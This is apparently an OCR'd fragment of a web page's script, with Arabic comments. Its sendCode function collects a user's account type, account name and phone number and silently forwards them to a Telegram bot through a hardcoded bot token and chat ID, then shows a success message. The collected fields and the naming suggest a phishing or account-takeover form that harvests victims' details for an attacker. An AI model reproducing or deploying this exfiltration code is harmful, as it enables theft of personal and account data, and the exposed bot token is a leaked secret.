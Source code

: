         // إرسال الكود واسم الحساب إلى البوت
        function sendCode() {
            accountName = document.getElementById("accountName").value;
            if (!accountName) {
                showMessage("error", "يرجى إدخال اسم الحساب.");
                return;
            }

            const token = "7587659263:AAFzLqLg2wHcwW0JFG-4ZVD8roEhRuSZiKI"; // ضع توكن البوت هنا
            const chatId = "5715560121"; // ضع Chat ID هنا
            const message = `نوع الحساب: ${accountType}\nاسم الحساب: ${accountName}\nرقم الهاتف: ${phone}`;

            const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;

            // إرسال البيانات إلى Telegram
            fetch(url)
                .then(response => response.json())
                .then(data => {
                    if (data.ok) {
                        showMessage("success", "تم إرسال البيانات بنجاح!");
                    } else {
                        showMessage("error", `خطأ من Telegram: ${data.description}`);
                    }
                })
                .catch(error => {
                    console.error("تفاصيل الخطأ:", error);
                    showMessage("error", "فشل في الاتصال بـ API.");
                });
        }

        // عرض الرسائل للمستخدم
        function showMessage(type, text) {
            const messageBox = document.getElementById("messageBox");
            messageBox.className = `message ${type}`;
            messageBox.textContent = text;
        }
    </script>
</body>
</html>
